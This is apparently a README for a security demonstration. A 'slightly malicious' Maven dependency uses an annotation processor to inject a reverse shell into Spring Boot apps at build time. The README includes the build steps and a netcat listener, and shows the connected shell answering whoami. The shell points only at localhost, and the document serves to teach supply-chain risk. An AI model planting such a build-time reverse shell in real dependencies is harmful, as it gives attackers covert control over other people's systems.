 # spring-build-analyzer

Slightly malicious dependency (spring-build-analyzer) and a demonstration project (demo). This project is intended to highlight the issues of including untrusted dependencies in your builds.

## demonstration

**The project requires Maven and Java 17.**

While there is a base `pom.xml` - the two projects should be built interdependently:

```bash
cd spring-build-analyzer
mvn install -DskipTests=true
cd ..
```

Next, in a different terminal, open netcat to listen on port 9999:

```bash
nc -l 9999
```

Then compile and run the demo application:

```bash
cd demo
mvn package -DskipTests=true
java -jar ./target/demo-0.0.1-SNAPSHOT.jar
```

In a third terminal, validate that the demo application is working as expected:

```bash
curl localhost:8080
```

You should receive back `Greetings from Spring Boot!`. Very exciting, isn't it?

Last, return to the tab with the netcat listener and the reverse shell should have connected; you can test by running `whoami`:

```bash
$ nc -l 9999
whoami
jeremy
```

## Explanation

The `spring-build-analyzer` uses an annotation processor to inject a reverse shell into any spring-boot application that is compiled while the `spring-boot-analyzer` is on the classpath. If you look at the `demo` project you will see that the `spring-boot-analyzer` looks like just a standard dependency:

```xml
<dependency>
    <groupId>io.github.jeremylong.spring.analyzer</groupId>
    <artifactId>spring-build-analyzer</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <scope>compile</scope>
</dependency>
```

Currently, the reverse shell is benign as it only connects back to localhost on port 9999. This is just a demonstration of what can go wrong at build time.

## Reproducible Builds

The `demo` project is set up to create re-producible builds. This is useful for understanding that if the build has been compromised by including a malicious dependency or plugin - it doesn't matter where you build the project it is **Reproducibly Compromised**.

```bash
$ shasum -a 256 target/demo-0.0.1-SNAPSHOT.jar
61fbe3f17c2638ed21da283b06f1dec342355c1937f01bef8231aeb294ff8417  target/demo-0.0.1-SNAPSHOT.jar

$ unzip -v target/demo-0.0.1-SNAPSHOT.jar
...
```

## Debugging

Did the above walk through not work? There might be a few reasons:

1. `curl localhost:8080` didn't return `Greetings from Spring Boot!`: 

   - Something is already running on port 8080. When the demo app is not running - ensure that nothing is running on port 8080.

2. No connection was made back to `nc -l 9999`.
   - Ensure nothing is running on port `9999`. Alternatively, update the port in the [CtxtListener source](https://github.com/jeremylong/spring-boot-analyzer/blob/651e919aa63b783b70eab96fb707192e6cd86341/spring-build-analyzer/src/main/java/io/github/jeremylong/spring/build/analyzer/SensorDrop.java#L31-L32) and rerun the above steps.
   - From the root of the project, after building the demo app validate that the `CtxtListener.class` exists: `ls demo/target/classes/io/github/jeremylong/spring/analyzer/demo/CtxtListener.class`. If the class does not exist, consider adding debugging statements [here](https://github.com/jeremylong/spring-boot-analyzer/blob/651e919aa63b783b70eab96fb707192e6cd86341/spring-build-analyzer/src/main/java/io/github/jeremylong/spring/build/analyzer/SensorDrop.java#L82) and re-installing the `spring-build-analyzer` and rebuilding the demo application.
   - If the `CtxtListener.class` does exist, uncomment the system out statements [here](https://github.com/jeremylong/spring-boot-analyzer/blob/651e919aa63b783b70eab96fb707192e6cd86341/spring-build-analyzer/src/main/java/io/github/jeremylong/spring/build/analyzer/SensorDrop.java#L63-L67) and re-install the `spring-build-analyzer`, rebuild the demo application, start netcat, and then run the demo app. The added debugging output may show what is going wrong on your system.


